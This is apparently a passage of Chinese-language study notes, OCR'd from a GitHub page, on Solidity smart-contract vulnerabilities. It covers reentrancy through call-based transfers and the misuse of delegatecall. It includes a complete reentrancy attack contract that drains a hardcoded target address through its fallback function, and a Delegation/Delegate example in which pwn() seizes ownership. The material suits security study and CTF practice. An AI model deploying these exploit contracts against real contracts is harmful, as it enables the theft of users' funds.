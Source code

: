    原理：call转账会调用所有的gas，并且转账出现异常之后不会抛出异常而是返回false

   漏洞分析：经典的重入漏洞，使用了call转账，并且balances[msg.sender]在转账完成之后才进行更新，所以构造攻击合约中的fallback触发即可

   ```solidity
   contract attack{
       test constant private target=test(0xEdBA908c98185b82b1aBb31AFAF66B2f415491B2);
       function cunqian() public payable{
           target.donate{value: 0.001 ether}(address(this));
       }
       function tuiqian()public{
           target.withdraw(0.001 ether);
       }
       function check() public view returns(uint){
           return address(this).balance;
       }
       fallback() external payable{
           if(address(0xEdBA908c98185b82b1aBb31AFAF66B2f415491B2).balance>=0.001 ether)
           target.withdraw(0.001 ether);
       }
        function reuse() public {
           msg.sender.transfer(address(this).balance);
       }
   }
   ```

   

2. delegateall滥用问题

   举个例子：

   ```solidity
   pragma solidity ^0.6.0;
   
   contract Delegate {
   
     address public owner;
   
     constructor(address _owner) public {
       owner = _owner;
     }
   
     function pwn() public {
       owner = msg.sender;
     }
   }
   
   contract Delegation {
   
     address public owner;
     Delegate delegate;
   
     constructor(address _delegateAddress) public {
       delegate = Delegate(_delegateAddress);
       owner = msg.sender;
     }
   
     fallback() external {
       (bool result,) = address(delegate).delegatecall(msg.data);
       if (result) {
         this;
       }
     }
   }
   ```
